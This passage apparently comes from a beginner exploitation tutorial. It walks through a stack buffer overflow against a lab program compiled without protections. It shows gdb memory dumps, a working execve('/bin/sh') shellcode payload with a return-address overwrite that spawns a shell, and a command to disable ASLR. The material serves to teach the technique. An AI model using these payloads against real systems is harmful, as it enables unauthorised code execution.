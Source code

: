 We have a completed shellcode, let's use it. But first, recompile the program with the parameters: `gcc stack-overflow.c -o stack-overflow -fno-stack-protector -no-pie -z execstack -m32` to make stack executable.

Crash the program and find the address of the buffer within the stack:
```bash
gef➤  r < <(python -c 'print "A"*262 + "B"*4')
gef➤  x/50wx $esp - 0x14a
0xffffce66:	0x00000804	0x85800000	0xcfa8f7fa	0x7b24ffff
0xffffce76:	0xcea6f7fe	0xc000ffff	0x80000804	0x8000f7fa
0xffffce86:	0xcfa8f7fa	0x923affff	0xcea60804	0xcee0ffff
0xffffce96:	0x0003ffff	0x92240000	0xd0000804	0xe76cf7ff
0xffffcea6:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xffffceb6:	0xb0e18953	0x4180cd0b	0x41414141	0x41414141
0xffffcec6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffced6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcee6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcef6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf06:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf16:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf26:	0x41414141	0x41414141
gef➤  r < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xa6\xce\xff\xff"')
Starting program: /home/shogun/repos/basics-of-pwn/content/stack-overflow/stack-overflow < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xa6\xce\xff\xff"')
process 8370 is executing new program: /bin/dash
[Inferior 1 (process 8370) exited normally]
gef➤  
```

So, my address is `0xffffcea6`. Then, I just placed the shellcode at the beginning of the buffer and jumped on it. You can see gdb said that the new program has executed.

Try it outside gdb. It doesn't work. Firstly, you need to disable security technique ASLR(`echo "0"| dd of=/proc/sys/kernel/randomize_va_space`). Secondly, gdb creates its own address space and there is an offset between the address in gdb and the real address of the executable.

Gdb has its env variables. So, we unset with `unset environment`. '`LINES` and `COLUMNS` vars are the lines and columns of the terminal, and GDB sets them internally'/

```bash
gef➤  unset environment LINES
gef➤  unset environment COLUMNS
gef➤  r < <(python -c 'print "A"*262 + "B"*4')
gef➤  x/50wx $esp - 0x14a
0xffffce86:	0x00000804	0x85800000	0xcfc8f7fa	0x7b24ffff
0xffffce96:	0xcec6f7fe	0xc000ffff	0x80000804	0x8000f7fa
0xffffcea6:	0xcfc8f7fa	0x923affff	0xcec60804	0xcf00ffff
0xffffceb6:	0x0003ffff	0x92240000	0xd0000804	0xe76cf7ff
0xffffcec6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffced6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcee6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcef6:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf06:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf16:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf26:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf36:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcf46:	0x41414141	0x41414141
gef➤  r < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xc6\xce\xff\xff"')
Starting program: /home/shogun/repos/basics-of-pwn/content/stack-overflow/stack-overflow < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 239 + "\xc6\xce\xff\xff"')
process 8791 is executing new program: /bin/dash
[Inferior 1 (process 8791) exited normally]
```